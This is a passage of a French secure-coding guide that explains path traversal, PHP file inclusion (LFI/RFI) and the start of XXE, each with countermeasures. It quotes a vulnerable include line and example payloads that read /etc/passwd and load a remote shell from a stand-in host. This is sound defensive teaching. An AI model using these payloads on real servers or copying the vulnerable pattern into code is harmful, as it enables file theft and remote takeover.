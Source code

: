 #### ✅ Répertoires dédiés (jail/chroot)
- Forcer l’application à n’accéder qu’à un dossier spécifique.  
- **Pourquoi ça protège** : même si l’attaquant tente un `../`, il ne peut pas sortir de l’espace prévu.

#### ✅ Normalisation du chemin
- Résoudre les `../` avant l’accès au fichier et vérifier qu’il reste dans le dossier autorisé.  
- **Pourquoi ça protège** : évite l’évasion de répertoire.

---

## 7. File Inclusion (LFI / RFI)

### 1. Situation de départ
Un site en PHP inclut dynamiquement des fichiers :  
`include($_GET['page'].".php");`

### 2. Ce que fait l’attaquant
- Avec LFI : il demande `?page=../../../../etc/passwd` pour afficher le contenu du fichier.  
- Avec RFI : il fournit une URL externe (`?page=http://evil.com/shell`) → exécution d’un script distant.

### 3. Conséquence
- Lecture de fichiers sensibles.  
- Exécution de code distant (prise de contrôle du serveur).  

### 4. Pourquoi c’est possible
- Utilisation de l’entrée utilisateur sans contrôle dans une fonction `include`/`require`.  

### 5. Contre-mesures

#### ✅ Désactiver `allow_url_include` (PHP)
- Bloque les inclusions de fichiers distants.  
- **Pourquoi ça protège** : empêche un attaquant de charger du code externe.

#### ✅ Liste blanche de fichiers
- N’autoriser que des pages prédéfinies (`about.php`, `contact.php`).  
- **Pourquoi ça protège** : impossible d’inclure des fichiers arbitraires.

#### ✅ Répertoires séparés
- Mettre les fichiers inclus dans un dossier spécifique non accessible à l’attaquant.  
- **Pourquoi ça protège** : réduit l’exposition de fichiers système.

---

## 8. XXE (XML External Entity)

### 1. Situation de départ
Une API accepte du XML et utilise un parseur vulnérable.
